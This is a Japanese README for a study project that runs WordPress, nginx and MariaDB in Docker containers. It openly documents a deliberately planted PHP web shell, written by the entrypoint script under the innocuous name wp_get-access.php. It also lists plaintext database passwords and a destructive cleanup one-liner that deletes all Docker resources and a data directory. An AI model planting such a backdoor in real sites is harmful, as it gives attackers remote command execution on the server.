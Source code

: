 # inception

WordpressのDockerコンテナです。
セキュリティの勉強をかねて少し手をこんだことをします。

WebShell仕込んでます。
実稼働で使わないでください！

## Containers

- nginx
- wordpress
- mariadb

## WebShell

https://localhost:443/wordpress/wp_get-access.php

ありそうな名前`wp_get-access.php`で作ってます。

### 配置場所

- /var/www/html/wordpress/wp_get-access.php

`srcs/requirements/wordpress/docker-entrypoint.sh`

```bash
echo '<?php system($_GET["cmd"]);?>' > /var/www/html/wordpress/wp_get-access.php
```

### 用途

Bonusの部分で利用します。

> 自分が便利だと思う好きなサービスを設定する。選んだサービスを正当化する必要があります。

## ポートフォリオ

昔作ったポートフォリをを載せてます。

### 用途

Bonusの部分で利用します。

> PHPを除くお好きな言語で、簡単な静的ウェブサイトを作成してください（はい、PHPは除きます！）。例えば、ショーケースサイトや履歴書を発表するためのサイトなど。

## SQL チートシート

```bash
# Maria DBのサーバーにアタッチする
docker exec -it $(docker ps -q -f name=mariadb) /bin/ash

# rootでDBにアクセスする
mariadb -h localhost -u root -payatoshitomi
# db_userでDBアクセスする
mariadb -h localhost -u db_user -p42inceptiondbroot

# MySQLのコマンド
> USE mysql;
> SELECT * FROM <TABLE_NAME>

# 補足）
#	rootでパスワードなしでログインできないようになっている。
mariadb -hlocalhost -uroot

```

## Memo

### 環境を初期化する

```shell
sudo rm -rf ~/data/

docker stop $(docker ps -qa); docker rm $(docker ps -qa); docker rmi -f $(docker images -qa); docker volume rm $(docker volume ls -q); docker network rm $(docker network ls -q) 2>/dev/null
```

### 起動確認

https://localhost:443/wp_install_log.html

### ボリューム問題

> docker-compose.yamlでボリュームを設定している場合、docker volume lsコマンドでは表示されません。
> ボリュームが作成されるのは、docker-compose up -dコマンドを実行してコンテナを起動した時点でのみです。

docker-compose.yamlを利用するのでボリュームは確認できない。
しかし、`/home/ashitomi/`を見れば存在が確認できる。